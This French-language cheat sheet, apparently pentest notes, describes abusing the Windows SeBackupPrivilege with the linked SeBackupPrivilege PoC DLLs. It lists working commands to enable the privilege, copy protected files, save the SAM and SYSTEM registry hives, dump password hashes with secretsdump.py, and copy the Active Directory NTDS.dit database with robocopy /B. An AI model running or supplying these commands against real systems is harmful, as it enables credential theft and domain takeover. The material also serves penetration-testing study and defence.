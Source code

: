 [https://github.com/giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)
### Importation des DLL du PoC

- **Commandes PowerShell :** `Import-Module .\SeBackupPrivilegeUtils.dll  
    ``Import-Module .\SeBackupPrivilegeCmdLets.dll  
    
- **Description :** Importe les modules nécessaires pour exploiter le privilège de sauvegarde de sécurité (SeBackupPrivilege).

### Vérification du Statut du Privilège

- **Commande PowerShell :** `Get-SeBackupPrivilege`
- **Description :** Affiche si le privilège de sauvegarde est activé ou désactivé pour l'utilisateur actuel.

### Activation du Privilège

- **Commande PowerShell :** `Set-SeBackupPrivilege`
- **Description :** Active le privilège de sauvegarde pour l'utilisateur actuel.

### Copie de Fichiers Protégés

- **Commande PowerShell :** `Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt`  
    
- **Description :** Utilise le privilège de sauvegarde pour copier un fichier normalement protégé par des droits d'accès restreints.

### Extraction des Informations de SAM et SYSTEM

Sauvegarde des Clefs de Registre SYSTEM et SAM

- **Commandes PowerShell :** `reg save HKLM\SAM SAM.SAV reg save HKLM\SYSTEM SYSTEM.SAV`  
    
- **Description :** Crée une sauvegarde des ruches de registre SAM et SYSTEM, contenant des informations sur les comptes locaux et les configurations système.

### Extraction des Informations

- **Commande Bash :** `secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL`  
    
- **Description :** Utilise `secretsdump.py` pour extraire des informations, telles que des hashes de mots de passe, à partir des fichiers sauvegardés.

### Accès à la Base de Données Active Directory

Copie de NTDS.dit

- **Commandes PowerShell :** `Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit` ou `robocopy /B E:\Windows\NTDS .\ntds ntds.dit`  
    
- **Description :** Copie la base de données NTDS.dit, qui contient les informations des utilisateurs et mots de passe de l'Active Directory, en utilisant le privilège de sauvegarde.